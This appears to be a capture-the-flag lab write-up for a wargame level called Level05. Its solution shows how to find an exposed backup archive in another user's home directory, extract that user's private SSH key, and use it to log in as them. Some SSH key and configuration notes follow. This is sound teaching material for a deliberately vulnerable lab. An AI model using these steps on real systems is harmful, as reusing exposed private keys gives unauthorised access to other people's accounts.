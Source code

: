 # Level05

#### About

Check the flag05 home directory. You are looking for weak directory permissions 
To do this level, log in as the level05 account with the password level05. Files for this level can be found in /home/flag05. 


#### Source code

There is no source code available for this level


#### Solutions
```
ls -all /home/flag05/
ls -all /home/flag05/.backup/
cp /home/flag05/.backup/backup-19072011.tgz /tmp/
cd /tmp
tar xvf /tmp/backup-19072011.tgz
ssh -i /tmp/.ssh/id_rsa flag05@127.0.0.1
/bin/getflag
```

#### Recommends
ssh-keygen 
    ---- ssh-keygen -b 2048 -t rsa -C "this is my ssh key" -f ssh_key_file 
    ---- /etc/ssh/moduli 
    ---- /etc/ssh/ssh_config 
    ---- /etc/ssh/sshd_config 
    ---- /etc/ssh/ssh_host_ecdsa_key.pub 
    ---- /etc/ssh/ssh_import_id 
